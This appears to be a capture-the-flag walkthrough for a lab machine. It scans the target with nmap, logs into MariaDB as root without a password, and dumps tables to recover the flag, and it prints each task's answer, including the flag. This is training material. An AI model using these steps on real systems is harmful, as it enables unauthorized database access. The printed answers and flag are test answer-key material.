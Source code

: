 Connect the VPN, spawn the VM.<br>
10.129.95.232

### TASK 1

What does the acronym SQL stand for?

Answer: Structured Query Language

### TASK 2

During our scan, which port running mysql do we find?

```
# nmap -sS -n -Pn 10.129.95.232 --top-ports 20 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 07:07 EDT
Nmap scan report for 10.129.95.232
Host is up (0.22s latency).

PORT     STATE  SERVICE
21/tcp   closed ftp
22/tcp   closed ssh
23/tcp   closed telnet
25/tcp   closed smtp
53/tcp   closed domain
80/tcp   closed http
110/tcp  closed pop3
111/tcp  closed rpcbind
135/tcp  closed msrpc
139/tcp  closed netbios-ssn
143/tcp  closed imap
443/tcp  closed https
445/tcp  closed microsoft-ds
993/tcp  closed imaps
995/tcp  closed pop3s
1723/tcp closed pptp
3306/tcp open   mysql
3389/tcp closed ms-wbt-server
5900/tcp closed vnc
8080/tcp closed http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
```

Answer: 3306

###   
TASK 3

What community-developed MySQL version is the target running?

```
# mysql -v -h 10.129.95.232
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 95
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Reading history-file /root/.mysql_history
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

Answer: MariaDB


### TASK 4

What switch do we need to use in order to specify a login username for the MySQL service?

```
mysql --help
```

Answer:  -u

### TASK 5

Which username allows us to log into MariaDB without providing a password?

```
# mysql -v -h 10.129.95.232        
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 98
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Reading history-file /root/.mysql_history
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> status
--------------
mysql  Ver 15.1 Distrib 10.6.8-MariaDB, for debian-linux-gnu (x86_64) using  EditLine wrapper

Connection id:          98
Current database:
Current user:           root@10.10.15.138
SSL:                    Not in use
Current pager:          stdout
Using outfile:          ''
Using delimiter:        ;
Server:                 MariaDB
Server version:         10.3.27-MariaDB-0+deb10u1 Debian 10
Protocol version:       10
Connection:             10.129.95.232 via TCP/IP
Server characterset:    utf8mb4
Db     characterset:    utf8mb4
Client characterset:    utf8
Conn.  characterset:    utf8
TCP port:               3306
Uptime:                 19 min 41 sec

Threads: 8  Questions: 68  Slow queries: 0  Opens: 32  Flush tables: 1  Open tables: 26  Queries per second avg: 0.057
--------------
```

Answer: root


### TASK 6

What symbol can we use to specify within the query that we want to display everything inside a table?

```
MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
--------------
show tables
--------------

+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.225 sec)

MariaDB [htb]> select * from users;
--------------
select * from users
--------------

+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0.224 sec)

MariaDB [htb]> 
```

Answer: *

### TASK 7

What symbol do we need to end each query with?

Answer: ;

### SUBMIT FLAG

Submit root flag

```
MariaDB [htb]> select * from config;
--------------
select * from config
--------------

+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.240 sec)
```

Answer: 7b4bec00d1a39e3dd4e021ec3d915da8
